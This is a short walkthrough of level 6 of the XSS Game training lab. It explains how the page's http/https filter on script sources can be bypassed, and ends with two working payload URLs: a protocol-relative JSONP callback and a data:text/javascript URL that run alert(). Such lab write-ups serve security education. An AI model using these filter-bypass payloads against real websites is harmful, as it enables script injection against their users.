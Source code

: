 # Level 6: Follow the 🐇

URL: [https://xss-game.appspot.com/level6](https://xss-game.appspot.com/level6)

![Xss Game Appspot Level 6 Image](img/level-6.png)

## Mission Objective

Find a way to make the application request an external file which will cause it to execute an `alert()`.

## Analysis

This lab objective is straightforward forward we have to load an external javascript file to execute an `alert()` function. The page adds a script tag with the `src` attribute pointing to the URL fragment’s value. If you take a look at the page source code you will find a `setInnerText()` function that prevents the loading of the script file if the URL starts with `http` or `https`.

## Conclusion

Even if the application blocks URLs starting with `http` or `https`. It can be bypassed by a [Protocol-relative URL](https://en.wikipedia.org/wiki/Wikipedia:Protocol-relative_URL) or with [data:URL scheme](https://developer.mozilla.org/en-US/docs/Web/URI/Reference/Schemes/data).

```bash
https://xss-game.appspot.com/level6/frame#//www.google.com/jsapi?callback=alert
```

```bash
https://xss-game.appspot.com/level6/frame#data:text/javascript,alert(document.domain)
```

![Xss Game Appspot Level 6 Solved](img/level-6-solved.png)
